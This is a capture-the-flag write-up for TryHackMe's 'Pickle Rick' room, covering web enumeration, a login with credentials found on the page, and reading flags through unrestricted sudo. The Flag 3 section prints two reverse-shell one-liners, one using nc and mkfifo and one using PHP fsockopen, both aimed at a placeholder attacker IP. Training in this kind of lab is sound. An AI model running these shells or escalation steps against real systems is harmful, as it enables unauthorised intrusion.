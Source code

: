 # Pickle Rick \(L\)

_TryHackMe_ – [**Pickle Rick** **CTF**](https://tryhackme.com/room/picklerick) Write-Up

_topics_: web application security, text manipulation in Linux, sudo permissions

1. **Plan**
2. **Enumeration**
3. **Flag 1**
4. **Flag 2**
5. **Flag 3**

new tools: less

tools: nmapAutomator, dirsearch

## 1\) Plan

We must help Rick turn back into a human by exploiting a webserver and finding the three ingredients he needs. 

## 2\) Enumeration

First things first `./nmapAutomator.sh 10.10.103.66 Basic`

![](.gitbook/assets/image%20%2829%29.png)

 This is a server so lets check for hidden directories`python3 dirsearch.py -u http://10.10.103.66/ -e php,html,txt`

![](.gitbook/assets/image%20%2849%29.png)

We have port 22 open running **ssh** and port 80 open running a typical **http** webserver. We know that we have to find the vulnerability on the webserver and we received three subdirectories of interest \(_/assets, /login.php & /robots.txt_\)

Inspecting the homepage _/index.html_

![Well Rick must&apos;ve been drunk because he left us his username in plaintext. ](.gitbook/assets/image%20%287%29.png)

Inspecting _/robots.txt_

![This is a catchphrase of Rick&apos;s. It may seem invaluable but could be used as a password. ](.gitbook/assets/image%20%2850%29.png)

#### Local Privilege Escalation

We now have a username and a text file with a phrase the owner says often. We know there is a _login.php_ page lets try this **R1ckRul3s:Wubbalubbadubdub** combination

![And we have a low privilege shell on Rick&apos;s webserver. ](.gitbook/assets/image%20%2856%29.png)

## 3\) Flag 1

Our enumeration told us this was an Ubuntu machine, lets attempt to run `ls` and see if it returns anything

![](.gitbook/assets/image%20%2825%29.png)

There are a few interesting files that might help us find the three ingredients. If you attempt to `cat Sup3rS3cretPickl3Ingred.txt`, we get an error that we don't have permission. At first it may seem that we need to be sudo to read the file. Using `ls -la` shows that the user _**ubuntu**_ owns that file but we have read permissions. Rick must have disabled the cat command, lets see if there is another way we can inspect the contents. 

There are numerous ways to output text in Linux. Cat, less, sed, awk, tee, grep, od, echo, more, tail, head...etc. Lets try `less` first:

![Flag 1](.gitbook/assets/image%20%2852%29.png)

this returns the first flag. 

## 4\) Flag 2

We still have certain files that we have not inspected, especially the _clue.txt_ file. 

![](.gitbook/assets/image%20%2828%29.png)

So we are told to simply look around the file system for the second flag. The first flag had specific syntax that might be repeated, lets use `locate Pickl?` to see if we can find it. Nope, locate is disabled too. How about the find command? 

![Nothing here](.gitbook/assets/image%20%2817%29.png)

Although, we can use find to search by permisson and the filename above has 333 in the name. Trying `find / -perm 333` returns nothing though. 

Lets start looking manually in _/home/rick_ then, the file probably does not have the same syntax. 

![A lesson to try easy things first](.gitbook/assets/image%20%2824%29.png)

![This made me laugh pretty hard lol](.gitbook/assets/image%20%2842%29.png)

## 5\) Flag 3

I have a feeling we'll need to be root in order to read this flag, and remember that port 22 is still open. Lets send a reverse shell to ourselves and run LinEnum. 

Both `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attackerIP> 4445 >/tmp/f` and `php -r '$sock=fsockopen("attackerIP",urPort);exec("/bin/sh -i &3 2>&3");'` are disabled so we will have to find another point of entry. 

**Always check for sudo permissions** `sudo -l`

![](.gitbook/assets/image%20%2820%29.png)

Hmm, so ANY user can use **sudo**, lets inspect the _/root_ directory with `sudo ls -la /root`

![](.gitbook/assets/image%20%2815%29.png)

The 3rd ingredient is revealed to be here. There also seems to be ssh keys in this directory, inspecting _/.ssh_ reveals ssh keys for the user ubuntu. 

We could ssh into the machine using the keys as user ubuntu, but remember that **sudo** can be used by **ANY** user. Because Rick just needs the ingredients, we can go ahead and skip attempting to get a shell as root. This would be done by logging into the system with the ssh keys and sending back a shell run with sudo \(root privileges\), or perhaps another exploit found by LinEnum.

We can simply print the contents of the file with less, `sudo less /root/3rd.txt`

![Ok now lets go get our drunk grandpa](.gitbook/assets/image%20%2823%29.png)

